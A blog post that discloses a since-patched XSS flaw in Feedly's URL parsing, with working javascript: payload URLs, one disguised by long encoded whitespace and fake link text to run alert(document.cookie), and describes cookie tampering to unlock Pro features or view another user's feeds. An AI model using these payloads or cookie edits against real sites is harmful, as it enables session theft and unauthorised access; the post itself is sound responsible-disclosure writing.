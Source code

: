 ```yaml
---
layout: post
title: 'XSS in Feedly and cookie manipulation'
---
```


### XSS
I reported a flaw in the URL parsing mechanism across `feedly.com` which led to an XSS. It has been patched in version 20.4.771 back in June. I have been able to replicate it at both `https://feedly.com` and `http://feedly.com` being both logged-in and logged-out. The affected URL is `https://feedly.com/index.html#subscription` however, the issue was in the URL parsing code itself, which wouldn't filter out URL schemes like `javascript:` (or `itunes:`, et al). An example:

{% highlight html %}
https://feedly.com/index.html#subscription%2Ffeed%2Fjavascript%3Aalert(1)
{% endhighlight %}

 <!--more-->Here's a small PoC I coded up to mislead a potential victim. Upon clicking the link under the text "Sorry. Feed not found." simple `alert(document.cookie)` would run. The PoC is decorated a bit to disguise its nature using an array of Unicode (that is why you don't see the alert implementation in the page body). The text *Go back to the main page. Click here.* is actually a malicious link that triggers the PoC.

![PoC][1]

<pre>
https://feedly.com/index.html#subscription%2F%20%23%E1%BC%A2%0Fajavascript%3A%2F%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83Get%20back%20to%20the%20main%20page.%20Click%20here.%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%E2%80%83%2F%3Balert(document.cookie)
</pre>

### Cookie manipulation

Feedly's cookie looks something like

~~~

{"plan":"standard","provider":"foobar","feedlyId":"12eebcd2-8f01-b22a-d109-185f2df74e949" ... }

~~~

By simply changing "plan" to "pro" you get the benefits of the Pro subscription in terms of UI enhancements but allegedly, not the server-side benefits (*Edit: any suggestions on how to verify this?*). The Feedly team said they considered this an advanced user's hack rather than a security issue, so feel free to use it at all times yourselves.

It was also possible to change a user ID in the cookie to another, known one, so as to see their feeds. However, this was probably patched while I was still investigating the issue and now I can't replicate it. Finding out other users' ID is not straightforward as well. Hence, discard this last paragraph but I note that their infrastructure might be prone to that kind ID swapping in general.

Update: Forgot to mention I received Feedly Pro from the team. Thanks.

> Read the manual if unsure, post comment(s) if unclear.


  [1]: https://pbs.twimg.com/media/Bp3IHQhIEAAGnvm.png:large
